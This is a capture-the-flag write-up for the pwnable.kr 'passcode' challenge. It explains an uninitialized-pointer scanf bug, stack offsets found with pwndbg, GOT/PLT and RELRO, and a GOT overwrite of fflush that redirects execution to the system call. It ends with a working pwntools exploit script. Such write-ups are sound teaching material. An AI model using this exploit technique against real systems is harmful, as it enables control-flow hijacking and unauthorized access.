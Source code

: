 # Passcode

First observation:
```c
scanf("%d", passcode1);
scanf("%d", passcode2);
```

The address should be used here, not the value. Also, both values are
uninitialized. How can we set their values?

Since nothing cleans up the stack when you enter and leave functions, the values
that you set on the stack will stay there until they are assigned to.

Using this train of though, we can probably assign to `passcode1` and
`passcode2` if we populate values on the stack and leave them there.

Conveniently, we have a `name` string in `welcome()` that allows us to do just
that.

Let's calculate the offsets.

```gdb
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> ni
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

We see that:
```
&passcode1 = $ebp - 0x10
&passcode2 = $ebp - 0x0c
```

Then try:
```gdb
pwndbg> ds ebp-0x10
ffffc2a8 'yaaa'
pwndbg> ds ebp-0xc0
ffffc1f8 None
```

Looks like we can set `passcode1` with the last 4 bytes of `name`. However, we
can't set `passcode2`.

To set `passcode1`, we need 96 bytes of filler. The last 4 bytes will be some
address that we will overwrite using `scanf`.

Another way to calculate the offset:
```gdb
pwndbg> cyclic -l yaaa
96
```

Anyway, some Googling I found out that a GOF attack will work here.

Immediately after the call to `scanf`, we call `fflush(stdin)`. Since this is
the first call to `fflush`, it isn't mapped to a real address yet.

### Aside on the GOT and PLT

- `plt`: Procedure Linkage Table
- `got`: Global Offset Table

The `plt` is always called first. Each entry in the `plt` looks like this:
- The first instruction is a jump to a function pointer
  - We must dereference it before we jump
  - If it's the first time calling this function, this function pointer points
    to an entry in the `.got.plt`.
      - This entry is initially simply set to the address of the next
        instruction of the `plt` entry.
  - If it's not the first time calling this function, this function pointer
    already points to the calculated real address. We just jump there and never
    execute the subsequent instructions.
- The next instructions are as follows:
  - Push some constant to the stack (a parameter representing the slot number)
  - Jump to a constant address (routine for calculating real address)
  - Set the function pointer of the `plt` entry to the calculated real address

Relocation Read-Only (RELRO) settings:
- Partial
  - `plt` is read-only
  - `.got.plt` is writeable
  - This means that if we control the address of `.got.plt` and it's the first
    time calling the function, we will jump to that address we specified
- Complete
  - `plt` and `.got.plt` are prepopulated by the linker when the program starts
  - Write access is removed
  - Exploit not possible

More info: https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html.

---

Our goal is to write the jump destination in the `.got.plt` for `fflush`. We can
assign an arbitrary address here, so let's pick the address at the `system`
call.

```gdb
pwndbg> disassemble login
Dump of assembler code for function login:
   0x08048564 <+0>: push   ebp
   0x08048565 <+1>: mov    ebp,esp
   0x08048567 <+3>: sub    esp,0x28
   0x0804856a <+6>: mov    eax,0x8048770
   0x0804856f <+11>:    mov    DWORD PTR [esp],eax
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
=> 0x08048577 <+19>:    mov    eax,0x8048783
   0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:    mov    DWORD PTR [esp],eax
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    eax,0x8048786
   0x0804859d <+57>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    eax,0x8048783
   0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
   0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
   0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5 <--- We want this
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
   0x080485f1 <+141>:   mov    DWORD PTR [esp],0x80487bd
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
End of assembler dump.
```

Goal address: `0x080485d7`

Script:

```python
import pwn

io = pwn.ssh(
    host='pwnable.kr',
    port=2222,
    user='passcode',
    password='guest'
)

# e_file = io.download_file('passcode')
e = pwn.ELF('./passcode')

io = io.run('./passcode')

fflush_got_plt = e.symbols['got.fflush']
goal_addr = 0x80485d7

name = b'A' * 96 + pwn.p32(fflush_got_plt)
print(name)

p1 = str(goal_addr).encode()
print(p1)

# with open('access', 'wb') as f:
#     f.write(name)
#     f.write(p1)
#     f.write(p2)

io.sendline(name)
io.sendline(p1)
print(io.recvall().decode(errors='ignore'))
```
